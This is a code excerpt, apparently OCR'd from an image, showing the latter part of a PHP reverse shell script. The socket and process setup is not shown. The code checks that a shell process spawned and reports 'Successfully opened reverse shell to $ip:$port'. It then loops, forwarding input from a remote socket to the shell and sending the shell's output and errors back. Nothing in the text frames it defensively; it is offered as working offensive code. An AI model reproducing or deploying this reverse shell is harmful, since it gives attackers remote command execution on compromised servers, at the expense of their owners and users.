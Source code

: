 ```
if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

